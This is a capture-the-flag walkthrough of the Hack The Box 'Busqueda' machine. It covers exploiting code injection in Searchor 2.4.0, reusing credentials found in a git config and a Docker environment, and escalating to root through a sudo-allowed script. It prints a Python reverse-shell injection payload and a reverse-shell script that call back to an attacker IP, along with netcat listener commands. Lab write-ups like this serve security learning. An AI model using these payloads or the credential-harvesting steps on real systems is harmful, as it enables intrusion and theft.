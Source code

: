 # Busqueda HTB machine

**A machine with a web service that uses a vulnerable python library for generating search queries.**

After exploring the web page, we can find information about the website. As it is stated at the bottom of the page "Powered by Flask and Searchor 2.4.0". After gathering information about Searchor 2.4.0, we found out that it is vulnerable to Arbitrary Code Execution(CWE-94), as stated in the following article:

https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303

We can find the exploit of Searchor 2.4.0 in the following github link:

https://github.com/jonnyzar/POC-Searchor-2.4.2

Let's inject a reverse shell into the website "What do you want to search for:" field, using the following code:

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.54',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Before sending the payload, make sure to execute "nc -lvpn 4444" with your terminal and change your ip with the one you have.

After sending the payload, we have user access as user "svc". We can now obtain the user flag. After examinating the structure of the server, we find a useful configuration file in the "/var/www/" folder which is a common directory found in Linux-based operating systems, typically used for storing web content. We can use the following command to locate files that have "config" as a substring of their name:

```
find /var/www/ -type f -iname "*config*" 2>/dev/null
```

The output is "/var/www/app/.git/config". We can perform "cat /var/www/app/.git/config" to view the file. We can see the following line in the file that provides credentials and a subdomain of the website called gitea.searcher.htb. 

```
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

This article explains how git credentials are stored in configuration files.

https://www.shellhacks.com/git-config-username-password-store-credentials/


We can try using the password as the password for the "svc" user to ssh to the machine and achieve connection. By executing "ssh svc@10.10.11.208" and providing the password "jh1usoih2bkjaspwe92" we can achieve connection.

Let's see the root permissions of the "svc" user to check if we can achieve privilege escalation by any means. After executing "sudo -l" we get the following message:

```
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Executing the command "sudo /usr/bin/python3 /opt/scripts/system-checkup.py *" we get the following help message:

```
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Executing "sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps" will list all running docker containers and the id associated with each docker container.

Executing "sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect" will generate the following help message:

```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

From this docker website we can find the correct format to inspect a certain docker container.

By getting the container id from the previous steps, we can find information about the docker container by executing the following command:

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e
```

From the output of the command, we get a line that contains a password value for the git database at the gitea.searcher.htb subdomain.

```
"GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh”
```

Add the gitea.searcher.htb subdomain to the /etc/hosts folder, then load the page and go to the "sign in" page. After trying the usernames presented in the output of the previous command, we need to find the correct username. We can try to sign-in as "cody" and password "jh1usoih2bkjaspwe92" as we discovered previously. We can see that in the dashboard there is a user named "administrator". Let's try use "administrator" as username and password "yuiu1hoiu4i5ho1uh". We now successfully logged in as "administrator" and we can find a private folder named "scripts" and view the scripts used in the server associated with the command "/usr/bin/python3 /opt/scripts/system-checkup.py *". After examinating the scripts, we find a vulnerability in the script "system-checkup.py" in the following block:

```
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

This block executes a command specified in the arg_list list by calling the run_command() function. If the execution is successful, it prints the output and a "Done!" message. However, if an exception occurs during the execution, it prints a generic "Something went wrong" message and exits with a non-zero status code.

The code relies on the run_command() function to execute the command specified in arg_list. The security and vulnerability of this code depend on how the run_command() function is implemented. If the function does not properly validate or sanitize the input, it may be susceptible to command injection attacks.

Let's try creating a script named "full-checkup.sh" in the directory "/home/svc" for the necessary permissions. We can execute "touch full-checkup.sh" and then use "vi" editor to create the file. Paste the following reverse shell code with appropriate ip and port numbers:

```
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.54",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

Now save the script and execute "chmod +x full-checkup.sh" to make it executable. Execute "nc -lvpn 4444" in your terminal to listen for incoming requests. Now, execute the script on the machine with the following command:

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Congrats! We connected to the machine as "root" user and we can display the root flag under the "/root" directory.

